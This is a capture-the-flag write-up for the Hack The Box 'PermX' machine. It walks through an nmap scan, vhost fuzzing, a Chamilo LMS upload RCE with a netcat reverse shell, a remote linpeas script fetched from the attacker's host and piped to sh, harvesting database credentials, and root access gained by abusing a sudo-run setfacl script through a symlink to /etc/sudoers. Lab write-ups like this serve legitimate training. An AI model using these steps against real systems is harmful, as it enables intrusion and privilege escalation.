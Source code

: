 # **scan with nmap**
Nmap 7.94SVN scan initiated Mon Aug 26 10:51:00 2024 as: nmap -sC -sV -Pn -oN PermX 10.10.11.23
Nmap scan report for 10.10.11.23
Host is up (1.6s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Mon Aug 26 10:55:06 2024 -- 1 IP address (1 host up) scanned in 245.80 seconds

I found two ports open for ssh and http and for http it show that it tried to redirect to permx.htb but was not successfull so i resolved it by adding it to the /etc/hosts file.

# Scan with Ffuf
I fuzzed for directories but all of the where not very usefull for i FUZZED for Vhosts
 `fuf  -u http://permex.htb/ -H "Host:FUZZ.permx.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -ic -ms 200

I found two www and lms so i added lms.permx.htb to the /etc/hosts as it was interesting

I did not FUZZ any further as right away i was presented with the admin panel

# Exploitation
The Title of the page was chamilo 1 so i searched for exploits related to that there were alot of them but the one i tried was the one which will execute remote code and give me a reverse shell.
it was called ==chamilo-lms-unauthenticated-big-upload-rce-poc== ,it will scan to check if the target is indeed vulnerable if it is it will respond with  ==Target is likely vulnerable. Go ahead==
 The exploit will upload all necessary files for the webshell and all i had to do was just listen for the connection back with  `nc -lvnp PORT` 


# Access Gained
After gaining access i browsed the www-data directory for files but it was kind annoying going to folder to folder so i used linpeas to identify interesting files 
`sudo python3 -m http.server #Host
curl MyIP/linpeas.sh | sh #Victim` i used this to execute the file as running it normally was giving me problems 
I found a config file which had connection to the database with passwords written on it.

I used the password found to login to ssh with the user i had identified by viewing the /etc/passwd file. After logging captured the USER flag.

# Privilege Escalation
I ran `sudo -l` to identify which commands can the user ran with sudo and it was `sudo /opt/acl.sh script`.Inside the script it ran ==setfacl== - a utility which sets sets Access Control Lists (ACLs) of files and directories.

I check out the gtfobins found something but since i could not edit the script i ,i used chatgpt to relay the contents of the script.It told me that the script can change the file permissions of any file but there were conditions and it can be misused with the use of symlinks. so i created  one for root.txt using `ln -s ./root.txt myfile`  but even after giving the file 777 permissions i could not read it so ,i thought of other files i could manipulate.I ended up giving the /etc/sudoers rw permission then edited it and added the user i was currently logged in as  to be able execute  sudo su.It worked and i read The ROOT flag.